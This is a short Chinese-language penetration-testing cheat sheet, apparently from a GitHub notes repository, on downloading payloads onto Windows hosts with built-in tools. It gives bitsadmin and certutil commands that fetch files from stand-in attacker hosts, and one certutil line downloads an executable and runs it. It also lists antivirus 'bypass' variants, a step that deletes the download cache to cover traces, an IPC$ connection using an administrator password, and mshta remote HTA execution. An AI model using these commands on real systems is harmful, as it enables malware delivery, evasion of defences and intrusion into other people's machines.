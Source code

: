 ### Bitsadmin

bitsadmin 是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。
```
bitsadmin /transfer n http://192.168.1.1/1/evil.txt d:\test\1.txt
```

### certutil

某些时候，服务器版本过低，无法使用 powershell，这时候可用 certutil 上线。

certutil 用于备份证书服务，支持 xp-win10 都支持。由于 certutil 下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

缓存目录为: `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`

```bash
# 下载
certutil -urlcache -split -f http://192.168.1.1/evil.txt test.php

# 如果提示拒绝访问，可以在找一个能创建文件夹的目录，创建完之后下载到文件夹里

# bypass技巧
certutil & Certutil -urlcache -split -f  https://xxx.com/test/payload.bin payload.bin
certutil & Certutil -urlcache -split -f  https://xxx.com/test/mian.exe mian.exe & mian.exe
certutil | Certutil -urlcache -split -f  https://xxx.com/test/payload.bin payload1.bin

# 删除缓存
certutil -urlcache -split -f http://192.168.1.1/evil.txt delete
```

### ipc$

```
# 建立远程 IPC 连接
net use \\192.168.1.1\ipc$ /user:administrator "abc123!"

# 复制远程文件到本地主机
copy \\192.168.1.1\c$\2.txt D:\test
```

### MSBuild

- [Use MSBuild To Do More](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)

### Mshta.exe

Mshta.exe 运行 Microsoft HTML 应用程序主机，这是 Windows OS 实用程序，负责运行 HTA（HTML 应用程序）文件。可以用来运行 JavaScript 或 VBScript 的 HTML 文件。

目标端
```
mshta.exe http://192.168.1.1/test.hta
```

这个基本上已经不好用了,杀软拦截的厉害

